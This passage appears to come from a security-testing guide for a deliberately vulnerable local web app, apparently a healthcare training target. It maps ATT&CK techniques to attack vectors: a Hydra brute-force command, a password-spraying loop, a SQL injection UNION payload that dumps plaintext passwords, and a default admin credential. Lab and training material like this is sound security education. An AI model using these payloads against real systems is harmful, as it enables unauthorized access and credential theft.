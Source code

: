 #### T1110.001: Brute Force - Password Guessing

**Description**: Guess passwords to gain access.

**Vulnerable Component**: No account lockout, weak passwords

**Attack Vector**:
```bash
hydra -l admin -P passwords.txt localhost -s 8080 \
  http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid"
```

**Testing Steps**:
1. Enumerate usernames (via SQL injection or error messages)
2. Use Hydra or custom script
3. Brute force with common passwords
4. Successful login with `admin:admin123`

---

#### T1110.003: Brute Force - Password Spraying

**Description**: Try common passwords across many accounts.

**Vulnerable Component**: No rate limiting or account lockout

**Attack Vector**:
```python
users = ['admin', 'doctor1', 'nurse1', 'patient1']
passwords = ['password', 'admin123', 'Password123!']
for user in users:
    for pwd in passwords:
        login(user, pwd)
```

**Testing Steps**:
1. Obtain list of usernames
2. Try common passwords across all accounts
3. Identify accounts with weak passwords

---

#### T1003.002: Credential Dumping - Security Account Manager

**Description**: Dump credentials from database.

**Vulnerable Component**: SQL injection + plain text passwords

**Attack Vector**:
```sql
' UNION SELECT username, password, email, role, 5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 FROM users -- 
```

**Testing Steps**:
1. Use SQL injection to extract users table
2. Obtain all usernames and passwords
3. No cracking needed - passwords stored in plain text

